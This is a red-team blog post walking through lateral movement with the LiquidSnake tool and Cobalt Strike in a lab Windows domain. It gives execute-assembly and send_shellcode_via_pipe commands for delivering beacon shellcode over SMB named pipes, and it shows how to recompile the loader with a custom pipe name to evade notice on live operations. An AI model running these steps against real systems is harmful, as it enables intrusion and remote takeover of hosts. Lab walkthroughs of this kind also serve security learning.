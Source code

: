 ```yaml
---
layout: post
title: Lateral Movement with LiquidSnake
subtitle: Playing with Cobalt Strike and LiquidSnake
thumbnail-img: /assets/posts/liquidsnake/thumb.png
share-img: /assets/posts/liquidsnake/thumb.png
tags: [cobalt strike, liquidsnake, lateral movement]
---
```


[LiquidSnake](https://github.com/RiccardoAncarani/LiquidSnake) is a recently released lateral movement tool, using [WMI event subscription](https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/) and SMB named pipes for shellcode transfer. The author, [@dottor_morte](https://twitter.com/dottor_morte), has also provided a Cobalt Strike aggressor script for easy integration with beacon.

# Testing Vanilla LiquidSnake
Without modifying the LiquidSnake solution, set the target architecture to `x64` and build - this will be our `execute-assembly` target from beacon.

I've got a beacon running on a Windows 10 system in my lab environment, we'll be using this as the starting point for lateral movement.

![Initial beacon](/assets/posts/liquidsnake/init_beacon.png){: .mx-auto.d-block :}

Using the user context (`REDANIA\vizimir`) already established in beacon, we'll test moving to `oxenfurt.redania.local`. This can be accomplished with beacon's `execute-assembly` function (or better yet, [BOF.NET](https://github.com/CCob/BOF.NET/pull/1)) and the compiled LiquidSnake binary:
~~~
execute-assembly /opt/aggressor/LiquidSnake.exe oxenfurt.redania.local
~~~

![LiquidSnake](/assets/posts/liquidsnake/snake.png){: .mx-auto.d-block :}

Make sure to wait for the full output to be received before continuing - during this time the WMI event sub is being created and subsequently trigged. Once triggered, the target host will be listening on a SMB named pipe for shellcode to be executed. By default, the named pipe used is `\\.\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7`. We'll come back to this value later.

The author has a [BOF](https://github.com/RiccardoAncarani/BOFs/tree/master/send_shellcode_via_pipe) and aggressor script which can be used to deliver our beacon shellcode to the listening pipe. I've generated some stageless beacon shellcode tied to the HTTPS listener to send. First, load up the aggressor script:
![Aggressor Script](/assets/posts/liquidsnake/import_aggressorscript.png){: .mx-auto.d-block :}

Deliver the shellcode:
~~~
send_shellcode_via_pipe \\oxenfurt\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7 /opt/aggressor/beacon.bin
~~~
![Send Shellcode](/assets/posts/liquidsnake/send_shellcode.png){: .mx-auto.d-block :}

And there's our new beacon on the target:
![New Beacon](/assets/posts/liquidsnake/new_beacon.png){: .mx-auto.d-block :}

# Customizing the Named Pipe
If we're to use LiquidSnake on a live operation, we'll likely want to change to named pipe to better blend in. To do this, we'll have to recompile the `CSharpNamedPipeLoader` solution from the LiquidSnake repo.

In `Program.cs` on line `410`, set the pipe name to your preferred value:
~~~csharp
IntPtr hPipe = CreateNamedPipe("\\\\.\\pipe\\MyNewPipeName")
~~~

Make sure the project architecture is set to `x64` and compile. To work the edit into LiquidSnake, [GadgetToJScript](https://github.com/med0x2e/GadgetToJScript) is used:
![GadgetToJScript](/assets/posts/liquidsnake/gadgettojscript.png){: .mx-auto.d-block :}

Base64 up the resulting `test.vbs` file:
![Base64 VBS](/assets/posts/liquidsnake/b64_gadget.png){: .mx-auto.d-block :}

Paste that string into the LiquidSnake solution in `Program.cs` on line `29`:
~~~csharp
string vbscript64 = "RnVuY3Rbpb24gQmFzZTY0VG9..."
~~~

Recompile the project and it's back over to Cobalt Strike. Repeat the previously used beacon commands, except this time sub in your custom named pipe value when running `send_shellcode_via_pipe`:
![Modded LiquidSname](/assets/posts/liquidsnake/modded_snake_exec.png){: .mx-auto.d-block :}

And we receive our third beacon, this one using the custom pipe name:
![Third Beacon](/assets/posts/liquidsnake/3rd_beacon.png){: .mx-auto.d-block :}